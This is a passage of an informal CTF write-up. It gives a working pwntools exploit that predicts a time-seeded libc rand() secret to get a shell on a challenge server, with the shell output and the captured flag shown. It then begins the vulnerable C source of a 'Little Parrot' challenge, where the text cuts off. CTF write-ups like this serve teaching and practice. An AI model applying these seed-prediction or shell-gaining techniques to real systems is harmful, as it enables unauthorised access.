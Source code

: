 ```c {hl_lines=10}
```
the code seeds with epoch, which we can trivially obtain on the moment we connect to server\
so we can reconstruct the secret
```py
from pwn import *
from ctypes import CDLL
import time

libc = CDLL('./libc.so.6')

r = remote('chal.ctf.scint.org', 10002)
alph = "!\"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~"

secret = ''
libc.srand(int(time.time()) + 2)
for _ in range(15):
    secret += alph[libc.rand() % len(alph)]

r.sendline(secret.encode())
r.sendline(b'y')
r.interactive()
```
u need to gamble like 5 times because of internet
```text
[*] Switching to interactive mode
Guess the secret, you only have one chance
guess >Your guess: N+m>`<<2bD^<R_j
Are you sure? [y/n] >Correct answer!
$ ls
bin
boot
dev
etc
flag.txt
home
# ...
var
$ cat flag.txt
THJCC{d1dN'T_!_5@y_yoU_ON1Y_h4V3_oN3_cH@Nc3?}$
```

## Little Parrot
me, a pwn noob: "wow this looks so similar to that one chal" (ofc idiot its simple asf thats why u saw a similar one before)

chal:
```c {hl_lines=[19,32]}
void win(){
	printf("\nYou win!\n");
	printf("Here is your flag: flag{fake_flag}");
	fflush(stdout);
}

int parrot(){
	char buf[0x100];
	printf("I'm a little parrot, and I'll repeat whatever you said!(or exit)\n> ");
	while(1){
		fflush(stdout);
		fgets(buf, sizeof(buf), stdin);

		if (!strcmp(buf, "exit\n")){
			break;
		}
```